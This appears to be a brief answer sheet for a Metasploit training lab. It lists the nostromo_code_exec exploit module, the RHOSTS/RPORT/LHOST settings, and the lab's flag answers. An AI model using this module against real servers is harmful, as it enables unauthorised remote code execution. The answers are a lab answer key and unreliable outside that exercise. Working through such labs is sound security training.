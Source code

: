 # Metasploit : Final Walkthrought 


## Select the module that needs to be exploited
```
use exploit/multi/http/nostromo_code_exec
```

## What variable do you need to set, to select the remote host
```
RHOSTS
```

## How do you set the port to 80
```
set rport 80
```

## How do you set listening address(Your machine)
```
LHOST
```

## Exploit the machine!
```
No answer needed
```

## What is the name of the secret directory in the /var/nostromo/htdocs directory?
```
s3cretd1r
```

## What are the contents of the file inside of the directory?
```
Woohoo!
```
